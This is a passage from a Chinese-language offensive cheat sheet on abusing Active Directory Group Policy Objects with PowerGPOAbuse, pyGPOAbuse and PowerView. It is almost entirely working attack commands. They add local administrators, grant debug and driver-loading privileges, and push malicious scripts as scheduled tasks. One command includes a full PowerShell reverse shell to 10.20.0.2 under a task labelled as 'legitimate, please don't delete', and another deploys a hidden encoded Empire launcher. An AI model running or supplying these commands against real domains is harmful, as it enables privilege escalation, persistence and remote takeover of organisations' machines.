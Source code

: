 ### 使用PowerGPOAbuse滥用GPO

* https://github.com/rootSySdk/PowerGPOAbuse

```ps1
PS> . .\PowerGPOAbuse.ps1

# Adding a localadmin 
PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Assign a new right 
PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Adding a New Computer/User script 
PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'

# Create an immediate task 
PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
```

### 使用pyGPOAbuse滥用GPO

```powershell
$ git clone https://github.com/Hackndo/pyGPOAbuse

# 将john用户添加到本地管理员组（密码：H4x00r123..）
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"

# 逆向shell示例
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "完全合法的任务" \
    -description "这是合法的，请不要删除" \ 
    -user
```

### 使用PowerView滥用GPO

```powershell
# 枚举GPO
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}

# New-GPOImmediateTask通过VulnGPO将Empire启动器推送到机器上
New-GPOImmediateTask -TaskName 调试 -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
```
